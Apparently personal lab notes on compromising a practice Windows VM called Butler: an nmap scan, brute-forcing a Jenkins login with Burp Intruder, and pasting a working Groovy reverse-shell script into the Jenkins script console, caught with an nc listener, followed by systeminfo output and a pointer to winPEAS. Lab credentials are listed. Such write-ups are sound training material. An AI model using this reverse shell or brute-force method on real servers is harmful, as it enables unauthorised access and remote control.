 
#privilegeescalation
#hackwindows


LowPrivilegeUser - butler: JeNkIn5@44
Admin - administrator: A%rc!BcA!

Ip address 192.168.64.7

nmap scan

```
──(root㉿kali)-[~]
└─# nmap -A -p- -T4 -oN nmapbutler2.txt 192.168.64.7 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 14:41 PDT
Nmap scan report for 192.168.64.7
Host is up (0.0022s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 22:28:3C:93:D3:67 (Unknown)
Device type: general purapose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-09T00:50:24
|_  start_date: N/A
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 22:28:3c:93:d3:67 (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 2h59m58s

TRACEROUTE
HOP RTT     ADDRESS
1   2.24 ms 192.168.64.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 524.40 seconds

┌──(root㉿kali)-[~]

```



## Exploit Port 8080

#exploit8080 

- http://192.168.64.7:8080

#jenkins
	- ![[Pasted image 20240708183417.png]]

#attackjenkins
- https://github.com/gquere/pwn_jenkins
- https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins
- https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins

default credential of Jenkins is admin/password but not working
We can brute force access it using burp suite


![[Pasted image 20240708185535.png]]


Send to repeater then send to intruder

![[Pasted image 20240708190618.png]]

#burpsuiteintruder
#clusterbomb

1. Choose clusterbomb
2. Clear
3. Doubleclick the username and add
4. Doubleclick the password and add
5. Start attack

clusterbomb - every single user with every single password
use different combinations

![[Pasted image 20240708191821.png]]


Payload 2

![[Pasted image 20240708191940.png]]

![[Pasted image 20240708192040.png]]


Check the length of the response

![[Pasted image 20240708192636.png]]

Here is the difference in the response

no session cookie, length = 315

![[Pasted image 20240708192759.png]]

there is session cookie ; length = 309

![[Pasted image 20240708192906.png]]

Since there is a session cookie now when we tried Jenkins as username and Jenkins as password. Let's try to log in now as jenkins/jenkins

We were able to log in.

![[Pasted image 20240708193156.png]]

![[Pasted image 20240708193449.png]]

#groovyreverseshell #revershelljenkins #exploitgroovyreverseshell
#githubgroovyreverseshell

Source:
- https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
- https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76 - githubgroovyreverseshell

Copy the script in the script console of jenkins

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

jenkins script console with reverse shell below

![[Pasted image 20240708194235.png]]

Run nc -nvlp 8044 in your machine then  run the script in jenkins

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 8044                                   
listening on [any] 8044 ...

```


![[Pasted image 20240708194618.png]]

Check `systeminfo` of the machine to enumerate

```
C:\Program Files\Jenkins>systeminfo
systeminfo

Host Name:                 BUTLER
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          butler
Registered Organization:   
Product ID:                00329-20000-00001-AA079
Original Install Date:     8/14/2021, 3:51:38 AM
System Boot Time:          7/8/2024, 7:01:31 PM
System Manufacturer:       QEMU
System Model:              Standard PC (Q35 + ICH9, 2009)
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 15 Model 107 Stepping 1 AuthenticAMD ~1000 Mhz
BIOS Version:              EFI Development Kit II / OVMF 0.0.0, 2/6/2015
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,045 MB
Available Physical Memory: 1,569 MB
Virtual Memory: Max Size:  3,197 MB
Virtual Memory: Available: 2,363 MB
Virtual Memory: In Use:    834 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4601554
                           [02]: KB5000736
                           [03]: KB5001330
                           [04]: KB5001405
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.64.1
                                 IP address(es)
                                 [01]: 192.168.64.7
                                 [02]: fe80::617e:9fd5:8bfa:b78f
                                 [03]: fd7b:a420:b5d1:f991:95d1:b628:96fd:1f60
                                 [04]: fd7b:a420:b5d1:f991:617e:9fd5:8bfa:b78f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```


#winpeas
#privilegescalationwindows

>> Search winpeas in google and download the latest bersion

#downloadwinpeas

https://github.com/peass-ng/PEASS-ng/releases/tag/20240707-68b6f322

Use the winpeasx64

- winPEASx64.exe 

